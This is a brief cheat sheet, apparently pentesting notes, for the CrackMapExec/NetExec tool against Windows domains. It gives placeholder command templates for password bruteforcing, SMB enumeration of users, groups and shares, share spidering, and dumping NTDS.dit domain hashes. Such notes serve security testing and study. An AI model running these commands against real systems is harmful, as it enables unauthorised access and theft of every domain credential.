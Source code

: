 CrackMapExec (or the new fork NetExec) is a very powerful tool for Windows domain enumeration and bruteforcing, with lots of options to play with. 

## Bruteforcing (Simple)
```shell
crackmapexec <protocol> <IP> -u <username or userlist> -p <password or passwordlist> # Bruteforce a protocol with CME
```
## SMB Mode
```shell
crackmapexec smb <DC_IP> -u <username> -p <password> --users # Enumerate Domain Users
crackmapexec smb <DC_IP> -u <username> -p <password> --groups # Enumerate Domain Groups
crackmapexec smb <DC_IP> -u <username> -p <password> --loggedon-users # Enumerate Domain Users who are currently logged on
crackmapexec smb <DC_IP> -u <username> -p <password> --shares # Enumerate Domain shares
crackmapexec smb <DC_IP> -u <username> -p <password> -M spider_plus --share <share name> # Spider SMB share for all readable files
crackmapexec smb <DC_IP> -u <username> -p <password> --ntds # Dump NTDS.dit and print all domain hashes
```

https://github.com/Pennyw0rth/NetExec
